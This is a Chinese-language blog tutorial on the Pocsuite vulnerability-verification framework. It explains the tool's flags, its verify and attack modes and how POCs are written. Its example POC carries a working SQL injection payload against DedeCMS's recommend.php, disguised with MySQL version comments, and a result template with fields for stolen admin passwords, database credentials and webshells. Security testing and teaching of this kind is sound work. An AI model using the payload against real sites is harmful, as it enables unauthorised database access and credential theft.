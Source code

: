 +++
date = "2016-09-08T20:38:45+08:00"
description = ""
draft = false
tags = ["poc"]
title = "POC框架Pocsuite"
topics = ["Python"]

+++

### 0x00 关于Pocsuite
> Pocsuite 是知道创宇安全研究团队打造的一款基于漏洞与 POC 的远程漏洞验证框架。可以让我们不用考虑过多的细节，只要考虑验证代码就可以，它封装了一些我们常用的东西，比如requests，在我们平常使用requests是要考虑cookie、要考虑header，但是在框架下则不需要有这些考虑，因为这些东西框架都帮你解决了。

### 0x01 简单介绍
* 安装
    * 使用pip install pocsuite即可安装
    {{% fluid_img src="/img/post/pocsuite_install.png" alt="安装pocsuite" %}}
* 常用参数
    * -u 指定一个目标url
    * -f 指定一个存放目标url的文件
    * -r 指定一个存放poc的文件夹
    * --report 导出结果到html文件
    * --cookie 携带cookie
    * --referer 修改referer
    * --user-agent 修改UA
* 模式
    * 执行一个poc有两种模式
        * \-\-verify 漏洞验证模式(只是验证，不能更改服务器的东西)
        * \-\-attack 漏洞利用模式
    * 示例
        * pocsuite -u "http://www.xxxx.com" -r poc_path/poc_name.py --atack
* poc编写
    * 可以新建一个文件夹，命名为mypoc，里面就放你自己写的poc(当然也可以在mypoc里新建文件夹放一类poc，对poc进行分类)
    * 此时示例(对目标进行常见服务的测试，加载一类多个poc脚本)
        * pocsuite -u "http://www.xxxx.com" -r poc_path/server/ --verify

* poc的命名规范
    * 漏洞ID_版本号_漏洞类型(其中不能有大写字母，所有符号要改为"\_"),大致如下：
        * _xxxx_struct2_2016_s2_016_code_execution.py
        * _xxxx_dedecms_20130715_sql_inj.py
* poc的编写流程
    * 导入pocsuite API模块
    * 创建TestPOC类
    * 填写POC信息
    * 编写_berify()方法
    * 编写_attack()方法
    * 注册类

### 0x02 实例
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# 导入pocsuite的必要模块
from pocsuite.net import req # requests模块，和requests用法完全一样
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register

class TestPOC(POCBase):
    """docstring for TestPOC"""
    vulID            = ''      # VUL ID
    version          = ''      # 版本号,默认为1
    author           = ''      # POC 作者的大名
    vulDate          = ''      # 漏洞公开的时间,不知道就写今天
    createDate       = ''      # 编写 POC 的日期
    updateDate       = ''      # POC更新的时间,默认和编写时间一样
    references       = ['']    # 漏洞地址来源,0day 不用写
    name             = ''      # POC 名称
    appPowerLink     = ''      # 漏洞厂商主页地址
    appName          = ''      # 漏洞应用名称
    appVersion       = ''      # 漏洞影响版本
    vulType          = ''      # 漏洞类型,类型参考见 漏洞类型规范表
    desc             = ''' ''' # 漏洞简要描述
    samples          = []      # 测试样例,就是用 POC 测试成功的网站url，选填
    install_requires = []      # POC 第三方模块依赖，请尽量不要使用第三方模块

    def _verify(self, verify=True): # 漏洞测试代码
        result = {}
        target_url = self.url

        # 这里写入漏洞测试代码
        path = "/plus/recommend.php"
        payload = "?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select md5(512341)),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294"
        html = req.get(target_url + path + payload, timeout=10).content
        if '5e8523b1645e6225001b9027cddc1c85' in html:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url + path
            result['VerifyInfo']['Path'] = path
            result['VerifyInfo']['Payload'] = payload
        
        return self.parse_attack(result)

    def _attack(self): # 漏洞利用代码
        # result = {}
        # # 先进行检测是否存在漏洞
        # if not self._verify(verify=False):
        #     return self.parse_attack(result)
        # target_url = self.url

        # # 这里写漏洞利用代码

        # return self.parse_attack(result)
        
        return self._verify() # 如果没漏洞利用代码，可以直接return测试函数

    def parse_attack(self, result): # poc输出函数，可以输出错误和成功信息
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Nothing returned')
        return output

register(TestPOC) #注册类
```

### 0x03 关于poc中result字典的内容
> ```
# result是一个字典，里面存储所有的漏洞信息:
result：{
    'DBInfo': {
        'Username': '管理员用户名',
        'Password'：'管理员密码',
        'Salt': '加密盐值',
        'Uid': '用户ID',
        'Groupid': '用户组ID'
        }
    'ShellInfo': {
        'URL': 'Webshell地址',
        'Content': 'Webshell内容'
        }
    'FileInfo': {
        'Filename': '文件名称',
        'Content': '文件内容'
        }
    'XSSInfo': {
        'URL': '验证URL',
        'Payload': '验证Payload'
        }
    'AdminInfo': {
        'Uid': '管理员ID',
        'Username': '管理员用户名',
        'Password': '管理员密码'
        }
    'Database': {
        'Hostname': '数据库主机名',
        'Username': '数据库用户名' ,
        'Password': '数据库密码',
        'DBname': '数据库名'
        }
    'VerifyInfo': {
        'URL': '验证URL',
        'Postdata': '验证POST数据',
        'Path': '网站绝对路径'
        }
    'SiteAttr': {
        'Process': '服务器进程'
        }
}
```